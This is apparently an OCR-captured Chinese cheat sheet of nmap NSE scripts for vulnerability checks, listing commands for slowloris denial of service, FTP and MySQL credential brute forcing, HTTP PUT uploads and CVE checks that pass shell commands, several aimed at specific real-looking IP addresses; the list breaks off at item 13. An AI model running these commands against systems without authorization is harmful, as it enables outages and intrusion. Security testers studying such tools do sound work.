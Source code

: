 # 0x03nmap常见漏洞检测

```
## 

### 1 http 拒绝服务

nmap --max-parallelism 800--script http-slowloris scanme.nmap.org

### 2 IIS 短文件泄露

nmap -p 8080 --script http-iis-short-name-brute 61.142.64.176

### 3 ftp弱口令暴力破解

nmap --script ftp-brute --script-args brute.emptypass=true,ftp-brute.timeout=30,userdb=/root/dirtionary/usernames.txt,brute.useraspass=true,passdb=/root/dirtionary/passwords.txt,brute.threads=3,brute.delay=6 203.195.139.153

 

### 4 检测CVE-2011-2523中的ftp-vsftpd-backdoor

nmap -T2 --script ftp-vsftpd-backdoor 211.139.201.240

### 5 验证http中开启的-methods 方法

nmap -T3 --script http-methods --script-args http.test-all=true,http.url-path=/[www.haoshangjia.com](http://www.haoshangjia.com/)

### 6 验证HTTP.sys 远程代码执行

nmap -sV --script http-vuln-cve2015-1635 203.195.139.153

### 7验证 SSL POODLE information leak

 nmap -sV -p 443 --version-light --script ssl-poodle 218.19.141.16

### 8 验证http 中开启了put 方法

nmap --script http-put --script-args http-put.url=/uploads/testput.txt,http-put.file=/root/put.txt 218.19.141.16

### 9 验证mysql 匿名访问

nmap --script mysql-empty-password 203.195.139.153

### 10 验证cve2015-1427 漏洞

nmap --script http-vuln-cve2015-1427 --script-args command=ls 203.195.139.153

### 11 验证cve2014-8877漏洞

nmap -Pn --script http-vuln-cve2014-8877 --script-args http-vuln-cve2014-8877.cmd=dir,http-vuln-cve2014-8877.uri=/wordpress 42.96.170.128

12 验证Cisco ASA中的CVE-2014-2126,CVE-2014-2127,CVE-2014-21,CVE-2014-2129漏洞

nmap -p 443 --script http-vuln-cve2014-2126,http-vuln-cve2014-2127,http-vuln-cve2014-2128,http-vuln-cve2014-2129 203.195.139.153

### 13验证低安全的 SSHv1，sslv2协议

```
